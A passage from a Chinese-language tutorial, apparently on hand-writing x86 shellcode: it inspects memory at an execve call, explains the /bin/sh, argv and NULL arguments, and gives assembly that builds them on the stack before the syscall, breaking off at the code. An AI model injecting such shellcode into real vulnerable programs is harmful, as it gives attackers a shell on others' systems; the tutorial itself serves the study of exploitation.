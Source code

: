 在调用execve的地方设置断点，确认此时内存状态。

![Alt text](./1489141752365.png)

execve需三个参数，分别为：

* 第一参数:0xbfbfebb4(/bin/sh地址)
* 第二参数:0xbfbfebbc(/bin/sh的地址以及内容为NULL的数组)
* 第三参数:0x00000000(NULL)

已经将sample5.c所设计的样子将数据排列好。
0xbfbfebac和0xbfbfebb0与execv的调用无关，因此可以将它们删除掉，于是得到一段最低限度的内存配置

![Alt text](./1489142170085.png)

编写汇编代码，将上述数据写入栈当前esp以后的位置，并调用execve。

```
.globl main
main:
    xorl  %eax, %eax
    pushl %eax   ;data[1](NULL)
    movl  %esp, %eax
    subl  $0x0c,%eax
    pushl %eax   ;data[0](/bin/sh地址)
    movl  %esp, %ebx
    pushl $0x0068732f ;字符串"/sh\0"
    pushl $0x6e69622f  ;字符串"/bin"
    movl  %esp, %edx
    xorl  %eax, %eax
    pushl %eax   ;第三参数
    pushl %ebx   ;第二参数
    pushl %edx   ;第一参数
    pushl %eax   ;call的返回地址(可以为任意值)
    movb  $0x3b, %al
```